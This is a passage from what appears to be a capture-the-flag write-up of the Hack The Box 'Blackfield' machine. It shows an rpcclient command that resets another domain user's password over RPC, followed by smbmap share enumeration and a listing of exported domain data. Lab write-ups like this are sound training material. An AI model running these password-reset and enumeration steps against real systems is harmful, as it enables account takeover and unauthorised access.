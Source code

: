 Initial research into this capability teaches me that the normal way to abuse this permission is through the Windows command line. I would need to utilize the `net.exe` binary or PowerView's `Set-DomainUserPassword` function. As I have no access to a domain-joined host, these options aren't available to me. I found a [mubix blog post](https://room362.com/post/2017/reset-ad-user-password-with-linux/) that describes how to do this remotely through the RPC protocol.

```text
ctf-htb-blackfield/loot [ main][?]
❯ rpcclient -U support //10.10.10.192
Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2
Usage: setuserinfo2 username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER
rpcclient $> setuserinfo2 audit2020 23 'Password123'
rpcclient $> exit
```

With this, I've changed the user `audit2020`'s password.

# Initial Access as `audit2020`

I confirm access as `audit2020` by listing SMB shares as that user, and I find that I now have read access to the `forensic` share.

```text
BloodHound.py [ master][🐍 v3.11.2]
❯ smbmap -u audit2020 -p 'Password123' -H 10.10.10.192
[+] IP: 10.10.10.192:445        Name: blackfield.local
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                READ ONLY       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
```

A recursive directory listing of the `forensic` share shows a variety of forensics tools and command outputs. I download the command outputs directory and look through them:

```text
        fr--r--r--              528 Sun Feb 23 12:12:54 2020    domain_admins.txt
        fr--r--r--              962 Sun Feb 23 12:12:54 2020    domain_groups.txt
        fr--r--r--            16454 Fri Feb 28 16:32:17 2020    domain_users.txt
        fr--r--r--           518202 Sun Feb 23 12:12:54 2020    firewall_rules.txt
        fr--r--r--             1782 Sun Feb 23 12:12:54 2020    ipconfig.txt
        fr--r--r--             3842 Sun Feb 23 12:12:54 2020    netstat.txt
        fr--r--r--             3976 Sun Feb 23 12:12:54 2020    route.txt
        fr--r--r--             4550 Sun Feb 23 12:12:54 2020    systeminfo.txt
        fr--r--r--             9990 Sun Feb 23 12:12:54 2020    tasklist.txt
```
